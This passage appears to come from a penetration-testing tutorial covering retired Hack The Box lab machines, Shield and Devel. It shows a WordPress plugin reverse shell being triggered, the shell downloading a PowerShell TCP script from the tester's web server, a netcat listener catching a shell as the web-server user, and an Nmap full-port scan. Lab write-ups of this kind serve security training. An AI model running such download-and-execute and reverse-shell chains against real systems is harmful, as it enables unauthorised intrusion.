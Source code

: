 We can now call the reverse shell by entering the url

```bash
http://shield.htb/wordpress/wp-content/plugins/newplugin/revshell.php
```

This should first call the web server to get the PowerShell file

```bash
┌─[rin@parrot]─[~/boxes/StartingPoint/Shield]
└──╼ $python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.29 - - [...] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

And then the reverse shell should then call netcat to give us a PowerShell prompt:

```bash
┌─[rin@parrot]─[~/boxes/StartingPoint/Shield/plugin]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.29] 51298
Windows PowerShell running as user SHIELD$ on SHIELD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\wwwroot\wordpress\wp-content\plugins\newplugin>whoami
nt authority\iusr
```

Although the process was more involved, we understood the process much better at the end of it and we got an initial shell that was far more robust than the PHP shell that Metasploit initially established. The way that we did the initial access in this way is more generalizable as well. We will see that we use the same approach repeatedly in different situations where we can't use Metasploit. However, there is no denying that Metasploit speeds things up and if you are working on an assignment which has time (and cost) pressures, Metasploit may be the way to go.

There is not necessarily a right or wrong answer when it comes to the choice of tools in most cases but knowing about a range of different approaches gives you the flexibility to select what you think is optimal for a particular situation.

## Alternative Box: Devel

As the Shield box is no longer available, the Devel box is another good introduction to Metasploit. It is worth reading through the Shield section to get an introduction to Wordpress Plugins, which are not covered in Devel. Again, we will use Metasploit to attain a reverse shell and escalate to root privileges. However, we will upload our shell using FTP rather than a Wordpress vulnerability. Note that this is a retired box that requires a VIP subscription to access.

### Performing Nmap Scan

Add a hostname for the box by adding the IP address and hostname in the /etc/hosts file. Create a directory to work in called **devel** and then add a subdirectory called **nmap** for the output of the Nmap scans.

Run an Nmap scan in the terminal using the command:

```bash
nmap -Pn -v -sC -sV -p- --min-rate=1000 -T4 devel.htb -o nmap/devel-tcp-full
```
